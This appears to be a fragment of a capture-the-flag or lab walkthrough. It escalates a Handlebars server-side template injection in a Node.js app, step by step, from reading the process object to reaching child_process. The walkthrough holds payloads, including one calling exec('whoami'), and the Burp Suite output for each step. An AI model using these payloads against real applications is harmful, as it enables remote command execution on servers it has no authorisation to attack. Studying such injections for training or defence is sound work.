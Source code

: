 Encode the request with 
```
{{this.push "return process;"}}
```
 instead of 
 
```
 {{this.push "return require('child_process').exec('whoami');"}}
```

and look in the response of Burpsuite

```
       We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
          2
        [object Object]
            [object process]
```

https://nodejs.org/api/process.html
https://nodejs.org/api/process.html#processmainmodule
https://www.geeksforgeeks.org/node-js-process-mainmodule-property/

Replace the exploit line with
```
{{this.push "return process.mainModule;"}}
```
 URL encode it and run it
```
       We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
          2
        [object Object]
        [object Object]
```

noting the extra object at the end.

Modify the payload to add
```
{{this.push "return process.mainModule.require('child_process');"}}
```

```
       We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
          2
        [object Object]
        [object Object]
```
